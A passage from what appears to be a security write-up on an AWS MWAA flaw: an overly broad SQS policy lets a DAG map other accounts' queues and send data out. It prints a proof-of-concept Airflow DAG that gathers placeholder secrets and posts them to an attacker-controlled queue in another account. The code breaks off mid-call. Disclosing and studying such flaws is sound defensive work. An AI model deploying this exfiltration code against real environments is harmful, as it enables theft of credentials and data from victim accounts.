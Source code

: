 The `sqs:GetQueueUrl` and `sqs:GetQueueAttributes` permissions can be turned into a scanner. An attacker can write a DAG that iterates through a list of known or suspected AWS account IDs. For each ID, the script would attempt to resolve the URL for queues like airflow-celery-prod, airflow-celery-dev, etc. A successful response confirms the existence of another MWAA environment or a similarly named service. This allows an attacker to quietly map out potential targets across different organizations without sending a single network packet to them, building a valuable list for future attacks.

## **Proof of Concept (POC) DAG for Data Exfiltration**

The following DAG is a proof-of-concept demonstrating the exfiltration attack. It simulates fetching a "secret" and sending it to an SQS queue controlled by an attacker. **This code is for educational and defensive purposes only.**

```

import json
from datetime import datetime

import boto3
from airflow.models.dag import DAG
from airflow.operators.python import PythonOperator

# --- Attacker-Controlled Parameters ---
# The attacker would replace these with their own values.
ATTACKER_AWS_ACCOUNT_ID = "123456789012"
ATTACKER_QUEUE_NAME = "airflow-celery-exfil-data"
ATTACKER_REGION = "us-east-1"
# -------------------------------------

def exfiltrate_data_via_sqs():
    """
    This function simulates the core of the attack.
    1. It gathers sensitive data accessible by the execution role.
    2. It sends this data to an SQS queue in an external AWS account.
    """
    print("Starting data exfiltration task...")

    # Step 1: Simulate collecting sensitive data.
    # In a real attack, this could be reading from an S3 bucket,
    # a secret from Secrets Manager, or database credentials.
    sensitive_data = {
        "source_account": "victim-account",
        "secret_key": "AWS_DUMMY_SECRET_KEY_abc123",
        "db_password": "ProdPassword123!",
        "notes": "This data was exfiltrated via MWAA SQS policy."
    }
    print("Collected sensitive data.")

    # Step 2: Prepare for exfiltration.
    # The queue URL is constructed to point to the attacker's queue.
    attacker_queue_url = f"https://sqs.{ATTACKER_REGION}.amazonaws.com/{ATTACKER_AWS_ACCOUNT_ID}/{ATTACKER_QUEUE_NAME}"    
    try:
        # The boto3 client will automatically use the permissions
        # of the MWAA execution role.
        sqs_client = boto3.client("sqs", region_name=ATTACKER_REGION)
        
        print(f"Sending data to attacker's SQS queue: {attacker_queue_url}")

        # Step 3: Send the data.
        # The IAM policy with "arn:aws:sqs:*:*:airflow-celery-*" allows this call.
        response = sqs_client.send_message(
            QueueUrl=attacker_queue_url,
            MessageBody=json.dumps(sensitive_data),
```